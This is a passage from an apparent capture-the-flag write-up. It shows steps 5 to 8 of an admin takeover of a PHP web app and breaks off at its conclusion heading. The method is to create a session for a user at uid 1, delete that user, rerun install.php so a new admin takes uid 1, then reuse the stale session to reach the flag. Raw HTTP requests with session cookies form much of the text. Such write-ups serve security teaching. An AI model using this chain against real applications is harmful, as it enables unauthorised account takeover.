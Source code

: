 ### 5. Creating a Valid Session for the New User on UID 1

Next, we need to create a valid session for our new user "fill", which now has `uid = 1`. We do this by logging in, making sure to *not* include any existing session cookie. This forces the server to issue a new, valid session for `uid = 1`.

```http
POST /login.php HTTP/1.1
Content-Length: 27
Origin: https://d2d7ccd10da6c316.xn--hkk-qla.shop
Content-Type: application/x-www-form-urlencoded

username=fill&password=pass
```

The response to this request will include a new `PHPSESSID` cookie. Let's call this session **eugene**. We'll save this session cookie for later.

### 6. Deleting the "fill" User on UID 1

We can now reuse our session from step 3, which still has the temporary delete permissions, to delete the "fill" user at `uid = 1`.

```http
POST /settings.php?uid=1 HTTP/1.1
Cookie: PHPSESSID=396f3535c2e9346a182df142fb49a46d
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

delete-user=1
```

### 7. Recreating the Admin Account

By accessing `install.php`, we can trigger the installation script to run again. The script is designed to create an admin account if one does not already exist. Since we have deleted all users with `uid = 1`, the script will create a new admin account with `uid = 1`. We can use our session with delete rights for this step.

```http
GET /install.php HTTP/1.1
Cookie: PHPSESSID=396f3535c2e9346a182df142fb49a46d
```

### 8. Logging in as Admin and Capturing the Flag

Now, we can use the **eugene** session we saved in step 5. This session is associated with `uid = 1`. Since the admin account now occupies `uid = 1`, the **eugene** session will grant us access to the admin account. With administrative privileges, we can navigate to `/flag.php` to retrieve the flag.

## Conclusion: The Critical Flaws

The successful exploit of this application hinged on two key vulnerabilities:
